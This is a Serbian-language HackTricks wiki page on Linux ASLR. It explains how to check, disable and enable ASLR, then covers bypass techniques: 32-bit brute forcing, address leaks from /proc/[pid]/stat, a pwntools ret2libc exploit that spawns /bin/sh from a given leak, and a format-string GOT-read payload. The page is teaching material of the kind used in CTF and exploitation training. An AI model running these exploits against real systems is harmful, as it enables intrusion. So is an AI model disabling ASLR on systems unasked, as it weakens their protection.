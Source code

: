 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Osnovne informacije

**Address Space Layout Randomization (ASLR)** je tehnika bezbednosti koja se koristi u operativnim sistemima za **nasumično određivanje memorijskih adresa** koje koriste sistemski i aplikativni procesi. Na taj način, značajno otežava napadaču da predvidi lokaciju specifičnih procesa i podataka, kao što su stek, heap i biblioteke, čime se ublažavaju određene vrste eksploatacija, posebno prelivanja bafera.

### **Proveravanje ASLR statusa**

Da biste **proverili** ASLR status na Linux sistemu, možete pročitati vrednost iz datoteke `/proc/sys/kernel/randomize_va_space`. Vrednost koja se čuva u ovoj datoteci određuje vrstu ASLR koja se primenjuje:

* **0**: Nema nasumičnosti. Sve je statično.
* **1**: Konzervativna nasumičnost. Deljene biblioteke, stek, mmap(), VDSO stranica su nasumične.
* **2**: Potpuna nasumičnost. Pored elemenata koji su nasumični kroz konzervativnu nasumičnost, memorija koja se upravlja putem `brk()` je nasumična.

Možete proveriti ASLR status sledećom komandom:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Onemogućavanje ASLR-a**

Da biste **onemogućili** ASLR, postavite vrednost `/proc/sys/kernel/randomize_va_space` na **0**. Onemogućavanje ASLR-a se generalno ne preporučuje van scenarija testiranja ili debagovanja. Evo kako možete to da uradite:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Možete takođe onemogućiti ASLR za izvršavanje sa:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Omogućavanje ASLR**

Da biste **omogućili** ASLR, možete napisati vrednost **2** u datoteku `/proc/sys/kernel/randomize_va_space`. To obično zahteva root privilegije. Omogućavanje pune randomizacije može se izvršiti sledećom komandom:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistencija kroz ponovna pokretanja**

Promene napravljene sa `echo` komandama su privremene i biće resetovane prilikom ponovnog pokretanja. Da biste promenu učinili trajnom, potrebno je da uredite datoteku `/etc/sysctl.conf` i dodate ili izmenite sledeću liniju:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
После уређивања `/etc/sysctl.conf`, примените промене са:
```bash
sudo sysctl -p
```
This will ensure that your ASLR settings remain across reboots.

## **Bypasses**

### 32bit brute-forcing

PaX deli adresni prostor procesa na **3 grupe**:

* **Kod i podaci** (inicijalizovani i neinicijalizovani): `.text`, `.data`, i `.bss` —> **16 bita** entropije u `delta_exec` varijabli. Ova varijabla se nasumično inicijalizuje sa svakim procesom i dodaje se početnim adresama.
* **Memorija** alocirana pomoću `mmap()` i **deljene biblioteke** —> **16 bita**, nazvana `delta_mmap`.
* **Stek** —> **24 bita**, nazvana `delta_stack`. Međutim, efektivno koristi **11 bita** (od 10. do 20. bajta uključujući), poravnato na **16 bajtova** —> Ovo rezultira sa **524,288 mogućih stvarnih adresa steka**.

Prethodni podaci su za 32-bitne sisteme i smanjena konačna entropija omogućava zaobilaženje ASLR ponovnim pokušajem izvršavanja iznova i iznova dok eksploatacija ne završi uspešno.

#### Brute-force ideje:

* Ako imate dovoljno veliki overflow da smestite **veliki NOP sled pre shellcode-a**, mogli biste jednostavno da brute-force-ujete adrese u steku dok tok **ne preskoči neki deo NOP sled-a**.
* Druga opcija za ovo, u slučaju da overflow nije toliko veliki i da se eksploatacija može pokrenuti lokalno, je moguće **dodati NOP sled i shellcode u promenljivu okruženja**.
* Ako je eksploatacija lokalna, možete pokušati da brute-force-ujete osnovnu adresu libc (korisno za 32-bitne sisteme):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Ako napadate udaljeni server, možete pokušati da **brute-force-ujete adresu funkcije `libc` `usleep`**, prosledjujući kao argument 10 (na primer). Ako u nekom trenutku **serveru treba dodatnih 10s da odgovori**, pronašli ste adresu ove funkcije.

{% hint style="success" %}
U 64bit sistemima entropija je mnogo veća i to nije moguće.
{% endhint %}

### Lokalne informacije (`/proc/[pid]/stat`)

Datoteka **`/proc/[pid]/stat`** procesa je uvek čitljiva za sve i **sadrži zanimljive** informacije kao što su:

* **startcode** & **endcode**: Adrese iznad i ispod sa **TEXT** binarnog fajla
* **startstack**: Adresa početka **stack-a**
* **start\_data** & **end\_data**: Adrese iznad i ispod gde se nalazi **BSS**
* **kstkesp** & **kstkeip**: Trenutne **ESP** i **EIP** adrese
* **arg\_start** & **arg\_end**: Adrese iznad i ispod gde su **cli argumenti**.
* **env\_start** &**env\_end**: Adrese iznad i ispod gde su **env promenljive**.

Dakle, ako je napadač na istom računaru kao i binarni fajl koji se eksploatiše i ovaj binarni fajl ne očekuje prelivanje od sirovih argumenata, već od različitog **ulaza koji se može kreirati nakon čitanja ove datoteke**. Moguće je da napadač **dobije neke adrese iz ove datoteke i konstruira ofsete iz njih za eksploataciju**.

{% hint style="success" %}
Za više informacija o ovoj datoteci proverite [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) pretražujući `/proc/pid/stat`
{% endhint %}

### Imati leak

* **Izazov je dati leak**

Ako dobijete leak (laki CTF izazovi), možete izračunati ofsete iz njega (pretpostavljajući na primer da znate tačnu verziju libc koja se koristi u sistemu koji eksploatišete). Ovaj primer eksploatacije je izvučen iz [**primera ovde**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (proverite tu stranicu za više detalja):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Zloupotrebljavajući buffer overflow, bilo bi moguće iskoristiti **ret2plt** da se izvuče adresa funkcije iz libc. Proverite:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Baš kao u ret2plt, ako imate proizvoljno čitanje putem ranjivosti format stringova, moguće je izvući adresu **libc funkcije** iz GOT-a. Sledeći [**primer je odavde**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Možete pronaći više informacija o Format Strings proizvoljnom čitanju na:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Pokušajte da zaobiđete ASLR koristeći adrese unutar steka:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
